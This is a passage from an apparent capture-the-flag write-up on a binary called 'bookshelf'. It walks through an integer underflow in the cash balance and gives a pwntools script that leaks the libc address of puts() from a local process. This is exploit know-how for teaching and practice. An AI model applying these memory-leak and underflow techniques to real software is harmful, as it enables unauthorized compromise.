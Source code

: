 ```
2) Buy a book
3) Write a special book (ADMINS ONLY) (0)
4) Check out
 >> 
```

Look what we found....0x7f0a37875bf0 our libc leaked value!!!

#### Local exploit

Let's write a script to automate the leaking process

| Iteration | Action                            | Cash        |
|:---------:|:---------------------------------:|:-----------:|
| 0         | Initial                           | \$500       |
| 1         | Buy \$425 book<br/>Leave tip      | \$65        |
| 2         | Attempt to buy book<br/>Leave tip | $55         |
| 3         | Attempt to buy book<br/>Leave tip | $45         |
| 4         | Attempt to buy book<br/>Leave tip | $35         |
| 5         | Attempt to buy book<br/>Leave tip | $25         |
| 6         | Attempt to buy book<br/>Leave tip | $15         |
| 7         | Attempt to buy book<br/>Leave tip | $5          |
| 8         | Attempt to buy book<br/>Leave tip | $4294967291 |

```python
from pwn import *

p = process('./bookshelf')

# LEAK PUTS
log.info('Leaking puts')
for _ in range(8):
    p.sendline(b'2')    # Go to bookshop
    p.sendline(b'2')    # Buy/Attempt to buy a book
    p.sendline(b'y')    # Leave tip

p.sendline(b'2')    # Go to bookshop
p.sendline(b'3')    # Read value of puts()
p.sendline(b'N')    # No need to leave any more tip

leak = p.clean()    # Read everything till now
leak = b''.join(word for word in leak.split(b' ') if word.startswith(b'0x'))    # Filter the text for the memory address

puts = int(leak, 16)
log.success('Puts found @ ' + hex(puts))

p.close()
```
